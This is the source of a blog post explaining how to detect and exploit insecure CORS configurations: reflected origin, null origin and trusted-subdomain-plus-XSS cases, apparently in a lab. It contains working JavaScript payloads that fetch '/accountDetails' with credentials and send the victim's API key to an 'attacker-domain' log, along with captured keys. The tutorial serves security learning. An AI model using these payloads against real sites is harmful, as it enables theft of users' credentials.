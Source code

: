 ```yaml
---
layout: post
title:  "Detecting and Exploiting Insecure CORS Configuration"
date:   2023-09-25 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - CORS
image1:
  - /insecure-cors-configuration/img1.PNG
image2:
  - /insecure-cors-configuration/img2.PNG
image3:
  - /insecure-cors-configuration/img3.PNG
image4:
  - /insecure-cors-configuration/img4.PNG
image5:
  - /insecure-cors-configuration/img5.PNG
image6:
  - /insecure-cors-configuration/img6.PNG
image7:
  - /insecure-cors-configuration/img7.PNG
image8:
  - /insecure-cors-configuration/img8.PNG
image9:
  - /insecure-cors-configuration/img9.PNG
---
```


Helloo readers!

Some of you might be wondering what CORS is? 🤔

CORS or Cross-Origin Resource Sharing is a security feature implemented by web browsers that controls how web pages in one domain can request and interact with resources (such as data, images, or APIs) hosted on another domain. This security feature is designed to prevent malicious websites from making unauthorized requests to a different domain on behalf of a user.

An insecure CORS configurations may pose significant security risks, including 

1. Data Theft (such as API keys and user credentials).
2. Cross-Site Scripting (XSS) attacks.
3. Remote Code Execution.

Properly configuring CORS policies and server settings is crucial to mitigate these risks and protect web applications and user data.


In this blog, I will demonstrate on how to detect and exploit insecure CORS configurations.

### Reflected Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to the domain supplied by the attacker.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image1 }}" alt="Reflected Origin">
<figcaption>Fig 1. Reflected Origin</figcaption>
</figure>

To exploit this vulnerability, the attacker must first place the JS script on an external server, making it accessible to the target user. Afterward, they need to craft an HTML page, incorporate the JS script within it, and then deliver this page to the user.

<figure>
<img src="{{ page.image2 }}" alt="Exploit Server">
<figcaption>Fig 2. Exploit Server</figcaption>
</figure>


```javascript
<script>
  # Initialize req and url variable
  var req = new XMLHttpRequest();
  var url = ('URL');

  # Set an event handler for when the request is completed
  req.onload = reqListener;
  # Configure the request
  req.open('GET', url + '/accountDetails',true);
  # Enable sending credentials with the request
  req.withCredentials = true;
  req.send();
  # Define the reqListener function
  function reqListener() {
    location='attacker-domain/log?key='+this.responseText;
  };
</script>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image3 }}" alt="Result">
<figcaption>Fig 3. Result</figcaption>
</figure>

`alWO6sJJnOlhJYwKVmdMMYhiq6xTLuQ1`

### NULL Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to null.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image4 }}" alt="NULL">
<figcaption>Fig 4. NULL origin</figcaption>
</figure>

To take advantage of the Null Origin vulnerability, we'll employ an iframe with a sandbox attribute to fetch the API key. 
By utilizing the sandbox property, we establish the frame's origin as null, enabling us to configure the Origin header with a null value.

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    var url = ('URL');

    req.onload = reqListener;
    req.open('GET', url + '/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='attacker-domain/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image5 }}" alt="Result">
<figcaption>Fig 5. Result</figcaption>
</figure>

`noF0gu7NCbYRFg6Cq8lkVbwqLR3574rA`

### Trusted Subdomains

The application becomes susceptible when:

1. Server configures `Access-Control-Allow-Origin` header as trusted subdomains.
2. `Access-Control-Allow-Credentials` set as true.

**This exploitation case is dependent on whether the trusted subdomains have any misconfigurations like Cross-Site Scripting.**

<figure>
<img src="{{ page.image6 }}" alt="NULL">
<figcaption>Fig 6. Trusted Subdomains</figcaption>
</figure>

After finding a CORS misconfiguration, it is time to find for exploitable attack vectors.

In this scenario, we found a reflected XSS vulnerability on the 'Check Stock' feature owned by stock trusted subdomain.

<figure>
<img src="{{ page.image7 }}" alt="NULL">
<figcaption>Fig 7. XSS Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image8 }}" alt="NULL">
<figcaption>Fig 8. XSS</figcaption>
</figure>

Craft a one-liner JavaScript to exfiltrate the apiKey

```Javascript
<script>
    document.location="http://stock.VULN.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULN.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker-domain/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
````

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image9 }}" alt="NULL">
<figcaption>Fig 9. Result</figcaption>
</figure>

`Ldrh2myx9LailPFS4i2zzkxw6chGED6F`


### Unexploitable Case: Wild Card

The application is NOT vulnerable when the Access-Control-Allow-Origin is set to wildcard * , even if the Access-Control-Allow-Credentials header is set to true.

This is because there is a safety check in place that disables the Allow-Credentials header when the origin is set to a wildcard.

So that’s it guys, hoped that my blog could help you better understand CORS.

See you on my next blog post!
